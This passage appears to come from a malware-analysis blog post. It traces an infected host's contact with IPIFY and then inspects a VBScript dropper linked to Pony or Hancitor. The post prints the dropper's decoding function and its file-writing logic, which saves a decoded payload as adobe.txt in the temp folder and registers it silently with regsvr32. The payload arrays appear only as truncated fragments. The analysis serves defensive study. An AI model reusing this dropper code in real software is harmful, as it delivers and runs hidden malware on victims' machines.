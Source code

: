 Now that we've got a solid line between IPIFY and our infected host, so let's see who communicated with that external service. It doesn't look like anyone beyond our known infected host did, but this is an example of connecting something suspicious to known bad. We don't do figurative hand-waving here, so it was good to make that association.

Before we move on, let's take a look at the VBScript. I'll caveat it with the fact that we'll just going to look and see if there's anything of value here vs. trying to RE it.

First off, looking at the metadata, it appears that it was also created on 3/10 (same as the time that it was added to the zip archive it was stored in). It's unclear if this was an automated process, indicating this is a process to create mass volumes of files for multple campaigns...but based on what was observed [online](https://urlhaus.abuse.ch/url/323970/), this is likely auto-created and archived.

It contains a bunch of numbers+`l` at the beginning and end of the script. I have an assumption that this is some sort of binary that is fed into `Dim GtYbDTHjR: Set GtYbDTHjR=CreateObject("Scripting.FileSystemObject"): Dim etEWDmZOL: Set etEWDmZOL=CreateObject("ADODB.Stream")` to create either Pony or Hancitor, and then registered as a DLL with `.Create "regsvr32.exe -s "+CStr(WScript.CreateObject("Scripting.FileSystemObject").GetSpecialFolder(Cint("2"))+"\")+"adobe.txt",,,processid`.

```
'3l70l69l69l79l69l69l69l259l70l69l69l69l69l69l69l69l69l69l69l69l69l69l133l69l69
l133l115l169l166l185l166l69l69l69l113l75l71l69l69l309l70l69l69l75l71l69l69l269l
70l69l69l69l69l69l69l69l69l69l69l69l69l69l133l69l69l261l115l183l184l183l168l69l
69l69l169l77l69l69l69l69l73l69l69l79l69l69l69l275l72l69l69l69l69l69l69l69l69l69
l69l69l69l69l133l69l69l133l115l183l170l177l180l168l69l69l289l75l69l69l69l85l...
```
There's also a huge variable defined with a `Split`
```
SsfkRq=Split("108,121,175,31,34,31,31,31,35,31...
```
Beyond the basics of what a `Split` is, I'm not sure what that is doing. It is referenced below with `.WriteText YZyNjfA(SsfkRq)`

Stripping all that out, we're left with:
```
Function YZyNjfA(YRMVEpWm)
svNcfFav=""
'Function siahdgfkiqadsf
ZBgKJYn=0
adsfsdasd=31
'numbers=3782347438234
'UBoundWhileFunctionEnds
Do While ZBgKJYn =< UBound(YRMVEpWm)
svNcfFav=svNcfFav+ChrW(YRMVEpWm(ZBgKJYn)-adsfsdasd)
'End Function
ZBgKJYn=ZBgKJYn+1
Loop
'.Close
YZyNjfA=svNcfFav
End Function
Dim GtYbDTHjR: Set GtYbDTHjR=CreateObject("Scripting.FileSystemObject"): Dim etEWDmZOL: Set etEWDmZOL=CreateObject("ADODB.Stream")
With etEWDmZOL
.Type=2
.Charset="ISO-8859-1"
.Open()
.WriteText YZyNjfA(SsfkRq)

.Position=0
.SaveToFile CStr(WScript.CreateObject("Scripting.FileSystemObject").GetSpecialFolder(2)+"\")+"adobe.txt", 2
.Close
End With
Set HeJddyu=GetObject("winmgmts:Win32_Process")
With HeJddyu
```